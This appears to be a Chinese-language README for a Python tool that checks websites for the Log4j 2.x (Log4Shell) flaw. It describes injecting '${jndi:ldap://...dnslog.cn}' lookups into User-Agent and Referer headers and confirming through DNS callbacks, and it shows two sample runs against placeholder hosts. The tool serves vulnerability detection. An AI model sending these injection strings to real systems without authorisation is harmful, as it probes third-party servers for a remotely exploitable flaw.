 # Log4j-2.x-pythonscript

这是本人研究了一阵子之后写出来的脚本，一些网站使用Log4j，他会记录一些使用者的操作记录，也就是说只要是他能记录的功能就都有可能存在被注入的可能。
根据这种特性，笔者大胆猜测，绝大多数被记录的东西除了网站合法的搜索、表单的提交、登录等，那么是不是一些请求的User-agent/referer也会被记录下来呢？

经过测试，的确是这样的，一些存在此漏洞的网站的确也可以通过上述的方式进行构造注入的请求，那么一切就变得简单了起来。

整体思维如下：
1.访问DNSLOG平台，获取DNSLOG短域名
2.访问疑似存在漏洞的地址，将POC插入至user agent头中
3.提交请求，而后程序延迟60秒，因为dns回显会存在一定的延迟，这就导致如果立即请求回显页面，那么可能会看不到任何的回显，大多数存在漏洞的网站回显时间不会超过60秒
4.60秒之后查看DNS回显结果，若是成功，则会记录

使用方式
python -u 漏洞地址


E:\PyCharm 2020.1\new>python Log4j.py.py -u http://www.xxx.com/
+---------------------------------------------------------------+
+ [Log4j 2.x 漏洞检测工具]                                         +
+ [开发者：vlan911]                                               +
+ [使用方式: python Log4j.py -u/--url http://xxx.xxx.xxx.xxx]         +
+---------------------------------------------------------------+
3ocxzg.dnslog.cn
{'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0${jndi:ldap://3ocxzg.dnslog.cn}', 'Cookie': 'addm90q6duunpj3vr4es815hl3', 'Referer': 'http
://www.xxx.com/{jndi:ldap://3ocxzg.dnslog.cn}'}
[["3ocxzg.dnslog.cn","*.*.*.*","2021-12-10 22:58:38"]]
[http://www.xxx.com/][===存在漏洞===]


E:\PyCharm 2020.1\new>python Log4j.py.py -u http://xxx.com
+---------------------------------------------------------------+
+ [Log4j 2.x 漏洞检测工具]                                      +
+ [开发者：vlan911]                                             +
+ [使用方式: python Log4j.py -u/--url http://xxx.xxx.xxx.xxx]   +
+---------------------------------------------------------------+
pwnm04.dnslog.cn
{'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0${jndi:ldap://pwnm04.dnslog.cn}', 'Cookie': 'addm90q6duunpj3vr4es815hl3', 'Referer': 'http
://xxx.com{jndi:ldap://pwnm04.dnslog.cn}'}
[]
[http://xxx.com][不存在漏洞]


脚本请移步右侧的release下载

